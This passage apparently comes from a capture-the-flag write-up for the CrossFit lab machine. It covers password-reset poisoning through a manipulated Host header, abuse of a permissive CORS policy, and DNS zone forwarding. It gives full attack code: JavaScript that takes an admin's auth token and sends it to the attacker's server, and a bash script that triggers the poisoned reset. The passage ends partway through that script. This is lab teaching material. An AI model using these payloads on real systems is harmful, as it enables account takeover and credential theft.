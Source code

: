 The request is hitting `relayd` and being routed to the `employees` application because the `Host` header ends with `employees.crossfit.htb`. The application is handling the `Host` header as `gymxcrossfit.htb`, and sending the password reset link to the admin with this domain, which I’ve registered as my own, so the click leads them to my server.

Because the admin’s browser is now visiting `gymxcrossfit.htb`, additional JavaScript requests to `crossfit-club.htb` would only be allowed if it accepts requests from that domain. It does:

```

oxdf@parrot$ curl -s -X OPTIONS -v -H "Origin: http://gymXcrossfit.htb" crossfit-club.htb/api/auth 2>&1 | grep Access-Control-Allow-Origin
< Access-Control-Allow-Origin: http://gymXcrossfit.htb

```

#### Fetch Token

With all that in mind, I’ll update my files to reflect the new domain.

`password-reset.php`:

```

<html>
  <head>
    <title>pwned</title>
  </head>
  <body>
    <script>
      var req_token = new XMLHttpRequest();
      req_token.onreadystatechange = function() {
        if (req_token.readyState == 4) {
          var token = JSON.parse(req_token.response).token
          var req_exfil = new XMLHttpRequest();
          req_exfil.open("POST", "http://gymxcrossfit.htb:81/exfil", false);
          req_exfil.send(token);
        }
      }
      req_token.open("GET", "http://crossfit-club.htb/api/auth");
      req_token.withCredentials = true;
      req_token.send();
    </script>
  </body>
</html>

```

`trigger.sh`:

```

#!/bin/bash

domain="gymxcrossfit.htb"
sleep=180

echo "[*] Starting DNS server"
/opt/FakeDns/fakedns.py -c ./fakedns.conf &
FAKEDNS=$!
echo "[*] Forwarding zone"
sudo unbound-control -s 10.10.10.232 forward_add +i $domain 10.10.14.13@53
echo "[*] Triggering password reset"
curl -s -X POST -H "Host: ${domain}/employees.crossfit.htb"  -H 'Content-Type: application/x-www-form-urlencoded' -H 'Referer: http://employees.crossfit.htb/password-reset.php' --data-binary 'email=david.palmer%40crossfit.htb' http://employees.crossfit.htb/password-reset.php | grep 'class="alert' | cut -d'>' -f2 | cut -d'<' -f1
echo "[*] Sleeping $sleep seconds waiting for link click"
```